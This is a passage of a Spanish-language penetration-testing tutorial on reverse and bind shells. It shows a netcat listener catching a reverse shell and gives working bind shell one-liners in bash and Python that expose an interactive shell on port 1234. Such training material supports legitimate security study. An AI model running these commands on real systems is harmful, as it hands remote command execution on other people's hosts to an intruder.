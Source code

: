 Podemos utilizar el exploit que tenemos sobre el host remoto para ejecutar uno de los comandos anteriores, es decir, a través de un exploit de Python o un módulo de Metasploit, para obtener una conexión inversa. Una vez que lo hagamos, deberíamos recibir una conexión en nuestro listener netcat: 

comando reverse shell
~~~
$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

Como podemos ver, después de recibir una conexión en nuestro listener de netcat, pudimos escribir nuestro comando y recuperar directamente su output, directamente en nuestra máquina. 

Un Reverse Shell es útil cuando queremos obtener una conexión rápida y confiable a nuestro host comprometido. Sin embargo, un Reverse Shell puede ser muy frágil. Una vez que se detiene el comando de reverse shell, o si perdemos nuestra conexión por cualquier motivo, tendríamos que usar el exploit inicial para ejecutar el comando de reverse shell nuevamente para recuperar nuestro acceso. 

___

### BIND SHELL

Otro tipo de shell es un Bind Shell. A diferencia de un Reverse Shell que se conecta a nosotros, tendremos que conectarnos a él en el puerto de escucha de los objetivos. 

Una vez que ejecutamos un comando Bind Shell, comenzará a escuchar en un puerto en el host remoto y vinculará el shell de ese host, es decir, Bash o PowerShell, a ese puerto. Tenemos que conectarnos a ese puerto con netcat, y obtendremos el control a través de un shell en ese sistema. 
___

### COMANDO BIND SHELL

Una vez más, podemos utilizar [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) para encontrar un comando adecuado para iniciar nuestro bind shell

>Nota: iniciaremos una conexión de escucha en el puerto '1234' en el host remoto, con IP '0.0.0.0' para que podamos conectarnos desde cualquier lugar. 

Los siguientes son comandos confiables que podemos usar para iniciar una bind shell:

Code: `bash`
~~~
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
~~~

Code: `python`
~~~
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
~~~
